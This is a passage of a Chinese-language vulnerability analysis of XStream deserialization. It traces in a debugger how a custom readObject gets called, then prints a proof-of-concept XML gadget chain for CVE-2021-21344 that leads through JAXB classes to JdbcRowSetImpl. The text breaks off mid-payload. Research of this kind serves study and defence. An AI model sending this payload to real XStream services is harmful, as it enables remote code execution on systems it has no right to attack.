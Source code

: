 更换序列化后的数据，在同样的位置打上断点，会发现这里处理 People 的 Converter 由 ReflectionConverter 变成了，SerializableConverter。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxjeIeIYPMunvO4RM8U5QyHqnZxfuzqNSIuVtQjdjwfLPDdoHGibx2AJw/640?wx_fmt=png)

这是我们尝试在 People 类的 readObject 类处打上断点

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxyYu517UAyoxmV34emqzuLIGecuMaNNkcN8xxic421HMxX8zHAlyZ7Lg/640?wx_fmt=png)

会发现执行过程中居然调用了我们重写的 readObject 方法，此时的调用链如下  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxelg4sLVyFl5uPQ9icBVyXCia2VxTy1bBfT0YYAAexMRP6UJfVboKwZFg/640?wx_fmt=png)

既然会调用 readObject 方法的话，那此时我们的思路应该就很清晰了，只需要找到一条利用链，就可以尝试进行反序列化攻击了  

**0x02  CVE-2021-21344**
========================

下面是漏洞相关 POC

```
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
        <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
          <packet>
            <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
              <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                  <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                    <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                      <jaxbType>com.sun.rowset.JdbcRowSetImpl</jaxbType>
                      <uriProperties/>
                      <attributeProperties/>
                      <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                        <getter>
                          <class>com.sun.rowset.JdbcRowSetImpl</class>
                          <name>getDatabaseMetaData</name>
                          <parameter-types/>
                        </getter>
                      </inheritedAttWildcard>
                    </bi>
                    <tagName/>
                    <context>
                      <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                        <outer-class reference='../..'/>
                      </marshallerPool>
                      <nameList>
                        <nsUriCannotBeDefaulted>
                          <boolean>true</boolean>
                        </nsUriCannotBeDefaulted>
                        <namespaceURIs>
                          <string>1</string>
                        </namespaceURIs>
                        <localNames>
                          <string>UTF-8</string>
                        </localNames>
                      </nameList>
                    </context>
                  </bridge>
                </bridge>
                <jaxbObject class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
```